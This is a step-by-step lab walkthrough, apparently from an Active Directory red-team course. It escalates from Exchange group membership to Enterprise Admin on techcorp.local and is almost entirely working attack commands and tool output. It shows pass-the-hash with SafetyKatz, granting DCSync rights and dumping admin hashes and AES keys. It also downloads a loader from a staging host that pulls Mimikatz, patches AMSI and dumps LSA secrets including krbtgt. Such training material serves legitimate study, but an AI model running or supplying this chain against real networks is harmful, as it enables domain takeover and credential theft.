





# Hands-on 17: Cross Trust Attacks - MS Exchange

- [Hands-on 17: Cross Trust Attacks - MS Exchange](#hands-on-17-cross-trust-attacks---ms-exchange)
  - [Tasks](#tasks)
  - [Enumerate the membership of Organization Management group in techcorp.local](#enumerate-the-membership-of-organization-management-group-in-techcorplocal)
  - [Abuse the permissions with the group to escalate privileges to Enterprise Admins in techcorp.local](#abuse-the-permissions-with-the-group-to-escalate-privileges-to-enterprise-admins-in-techcorplocal)
  - [Password dump on Enterprise DC](#password-dump-on-enterprise-dc)

---

## Tasks

- Enumerate the membership of Organization Management group in `techcorp.local`.  
- Abuse the permissions with the group to escalate privileges to Enterprise Admins in `techcorp.local`.

<br/>

---

## Enumerate the membership of Organization Management group in techcorp.local

Use AD Module to enumerate:

```
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll; Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

```
Get-ADGroupMember -Identity "Organization Management" -Server techcorp.local
```

  

There are 3 members in **Organization Management Group**
- us\exchangemanager
- us\exchangeadmin
- techcorp\administrator

<br/>

## Abuse the permissions with the group to escalate privileges to Enterprise Admins in techcorp.local

In [Hands-on 14](l14-GoldenTicket.md), we dumped the hashes in `us.techcorp.local`. The hash of `us\exchangeadmin`:

```
RID  : 00000464 (1124)
User : exchangeadmin
LM   :
NTLM : 65c1a880fcf8832d55fdc1d8af76f117
```

<br/>

First perform an over-pass-the-hash as local admin:

```
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /domain:us.techcorp.local /user:exchangeadmin /ntlm:65c1a880fcf8832d55fdc1d8af76f117 /run:powershell.exe" "exit"
```

  

<br/>

In the PtH session, add the current user `studentuser64` into `Exchange Windows permissions`:

```
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll; Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

```
$user = Get-ADUser -Identity studentuser64; $group = Get-ADGroup -Identity 'Exchange Windows Permissions' -Server techcorp.local; Add-ADGroupMember -Identity $group -Members $user -Verbose
```

  

<br/>

Logout and login again to refresh the security token. Then use `AD Module` with `RACE` to add DCSync permission to `studentuser64`:

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```

```
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll; Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1; Import-Module C:\AD\Tools\RACE-master\RACE.psd1
```

```
Set-ADACL -DistinguishedName 'DC=techcorp,DC=local' -SamAccountName studentuser64 -GUIDRight DCSync -Server techcorp.local -Verbose
```

  

<br/>

Use `SafetyKatz.exe` to perform a DCSync to get the hash of the Enterprise Admin:

```
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:techcorp\administrator /domain:techcorp.local" "exit"
```

Result:
```
[*] Dumping lsass (720) to C:\Windows\Temp\test.txt
[+] Dump successful!

[*] Executing loaded Mimikatz PE

  .#####.   mimikatz 2.2.0 (x64) #19041 Dec 18 2020 22:37:12
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # lsadump::dcsync /user:techcorp\administrator /domain:techcorp.local
[DC] 'techcorp.local' will be the domain
[DC] 'Techcorp-DC.techcorp.local' will be the DC server
[DC] 'techcorp\administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 7/4/2019 2:01:32 AM
Object Security ID   : S-1-5-21-2781415573-3701854478-2406986946-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: bc4cf9b751d196c4b6e1a2ba923ef33f
    ntlm- 0: bc4cf9b751d196c4b6e1a2ba923ef33f
    ntlm- 1: c87a64622a487061ab81e51cc711a34b
    lm  - 0: 6ac43f8c5f2e6ddab0f85e76d711eab8

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : f94f43f24957c86f1a2d359b7585b940

* Primary:Kerberos-Newer-Keys *
    Default Salt : TECHCORP.LOCALAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 58db3c598315bf030d4f1f07021d364ba9350444e3f391e167938dd998836883
      aes128_hmac       (4096) : 1470b3ca6afc4146399c177ab08c5d29
      des_cbc_md5       (4096) : c198a4545e6d4c94
    OldCredentials
      aes256_hmac       (4096) : 9de1b687c149f44ccf5bb546d7c5a6eb47feab97bc34380ee54257024a43caf0
      aes128_hmac       (4096) : f7996a1b81e251f7eb2cceda64f7a2ff
      des_cbc_md5       (4096) : 386b3de03ecb62df

* Primary:Kerberos *
    Default Salt : TECHCORP.LOCALAdministrator
    Credentials
      des_cbc_md5       : c198a4545e6d4c94
    OldCredentials
      des_cbc_md5       : 386b3de03ecb62df

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  f4e3c69dc427ef76903a65e2848b0f4c
    02  bf5ea8567f6fd1ef7f257304278a6e52
    03  b3ed9e4019c9c725ae929d0b73cbd852
    04  f4e3c69dc427ef76903a65e2848b0f4c
    05  5c0f8ba64238288eff440c01bbe81a5e
    06  dcc7e5185c6c279b3d10b20af1994cbb
    07  50e4e0f1db674508a890e22751797889
    08  f0fd75f91cf2843531ff58d83a85b84e
    09  bd49a7a6232f85a5b8d8edb68786032b
    10  6aabbb1d7742272ceff856b907c5c9ba
    11  3a21402317ce21660b2ccb899d783ea3
    12  f0fd75f91cf2843531ff58d83a85b84e
    13  04f3c03fd2e53ee67fbece68ce267134
    14  9a08da7d88d88f8e3b307adee818cc6e
    15  da942a6b569ef74ecb675359bc2784eb
    16  f783eb704fa6677368309688a31efc97
    17  2e4abf671ea3bba742e340f2b25a3970
    18  e60715ae3f9dc9d75b3c4aabf36d7a30
    19  f0d4e1439ff5452f1a0fffb97e04524e
    20  816fb1f321fd9e6936bc86db53375242
    21  4e29af591c5b9fc1837a19ec61433da9
    22  e238e557513d21c02e67134fd5209e01
    23  db8ad27d9ed2dc8fa35d3c546d896b60
    24  2c89e15382d83a0e7007b916c5f21925
    25  60b33decd4f178a2417b0dc9e776ad3e
    26  55584de6c6a3c05c519cbbf35478bbfa
    27  c790bb64ca16391e1e9b15c9cb0aad68
    28  067ef368529b0ba16bcfd1276c306aea
    29  438b45e36bd633e4bedbb3748f3d0c4d


mimikatz(commandline) # exit
Bye!
```

  

Note:
techcorp\administrator
- SID: `S-1-5-21-2781415573-3701854478-2406986946-500`
- AES256: `58db3c598315bf030d4f1f07021d364ba9350444e3f391e167938dd998836883`
- NTLM: `bc4cf9b751d196c4b6e1a2ba923ef33f`

<br/>

Now we can use this credential to perform PtH and access the Enterprise DC:

```
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /domain:techcorp.local /user:administrator /aes256:58db3c598315bf030d4f1f07021d364ba9350444e3f391e167938dd998836883 /run:powershell.exe" "exit"
```

On the spawned session:
```
winrs -r:techcorp-dc.techcorp.local cmd.exe
```

  

---

## Password dump on Enterprise DC

```
cd C:\User\Public
```

```
powershell -ep bypass
```

```
wget http://192.168.100.64/Loader.exe -OutFile .\Loader.exe
```

<br/>

```
.\Loader.exe -path http://192.168.100.64/SafetyKatz.exe "lsadump::lsa /patch"
```

  

<br/>

Result:

```
[!] ~Flangvik , ~Arno0x #NetLoader
[+] Successfully unhooked ETW!
[+] Successfully patched AMSI!
[+] URL/PATH : http://192.168.100.64/SafetyKatz.exe
[+] Arguments :

[*] Dumping lsass (720) to C:\Windows\Temp\test.txt
[+] Dump successful!

[*] Executing loaded Mimikatz PE

  .#####.   mimikatz 2.2.0 (x64) #19041 Dec 18 2020 22:37:12
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # -path
ERROR mimikatz_doLocal ; "-path" command of "standard" module not found !

Module :        standard
Full name :     Standard module
Description :   Basic commands (does not require module name)

            exit  -  Quit mimikatz
             cls  -  Clear screen (doesn't work with redirections, like PsExec)
          answer  -  Answer to the Ultimate Question of Life, the Universe, and Everything
          coffee  -  Please, make me a coffee!
           sleep  -  Sleep an amount of milliseconds
             log  -  Log mimikatz input/output to file
          base64  -  Switch file input/output base64
         version  -  Display some version informations
              cd  -  Change or display current directory
       localtime  -  Displays system local date and time (OJ command)
        hostname  -  Displays system local hostname

mimikatz(commandline) # http://192.168.100.64/SafetyKatz.exe
ERROR mimikatz_doLocal ; "http://192.168.100.64/SafetyKatz.exe" command of "standard" module not found !

Module :        standard
Full name :     Standard module
Description :   Basic commands (does not require module name)

            exit  -  Quit mimikatz
             cls  -  Clear screen (doesn't work with redirections, like PsExec)
          answer  -  Answer to the Ultimate Question of Life, the Universe, and Everything
          coffee  -  Please, make me a coffee!
           sleep  -  Sleep an amount of milliseconds
             log  -  Log mimikatz input/output to file
          base64  -  Switch file input/output base64
         version  -  Display some version informations
              cd  -  Change or display current directory
       localtime  -  Displays system local date and time (OJ command)
        hostname  -  Displays system local hostname

mimikatz(commandline) # lsadump::lsa /patch
Domain : TECHCORP / S-1-5-21-2781415573-3701854478-2406986946

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : bc4cf9b751d196c4b6e1a2ba923ef33f

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 7735b8be1edda5deea6bfbacb7f2c3e7

RID  : 00000450 (1104)
User : MSOL_16fb75d0227d
LM   :
NTLM : c1db8cdcb7a89f56dd00b77e384c2c9c

RID  : 00000464 (1124)
User : $431000-R3GTAO0291F9
LM   :
NTLM :

RID  : 00000465 (1125)
User : SM_6fcd6ac55a6146a0a
LM   :
NTLM :

RID  : 00000466 (1126)
User : SM_154a18cd4a8e48f09
LM   :
NTLM :

RID  : 00000467 (1127)
User : SM_01a48ed0a28c423d9
LM   :
NTLM :

RID  : 00000468 (1128)
User : SM_37c4dd3af61044398
LM   :
NTLM :

RID  : 00000469 (1129)
User : SM_8b0a3d48bd2541249
LM   :
NTLM :

RID  : 0000046a (1130)
User : SM_8bf409db7e874ebe9
LM   :
NTLM :

RID  : 0000046b (1131)
User : SM_73d4ee9dc8674c898
LM   :
NTLM :

RID  : 0000046c (1132)
User : SM_eca5036b49c740608
LM   :
NTLM :

RID  : 0000046d (1133)
User : SM_309ad2430f0b4251b
LM   :
NTLM :

RID  : 00000472 (1138)
User : privuser
LM   :
NTLM : 6f179c10849d6a997cbe8a618868c108

RID  : 00000474 (1140)
User : testuser
LM   :
NTLM : e774a7974dc0de4c0019c28e4c55f8c8

RID  : 000003e8 (1000)
User : TECHCORP-DC$
LM   :
NTLM : bf873f681eac2a97ec7e625c47dbb9db

RID  : 00000473 (1139)
User : EMPTEST$
LM   :
NTLM : 653af537f77a28855ab9160dfe673b9f

RID  : 0000044f (1103)
User : US$
LM   :
NTLM : 7da38b6a4076e49a03addd628881d99c

RID  : 00000470 (1136)
User : USVENDOR$
LM   :
NTLM : 16121788d23f7de80f9244d282bd6b7e

RID  : 00000471 (1137)
User : BASTION$
LM   :
NTLM : 437dec15137316729552c4117b491bf1

```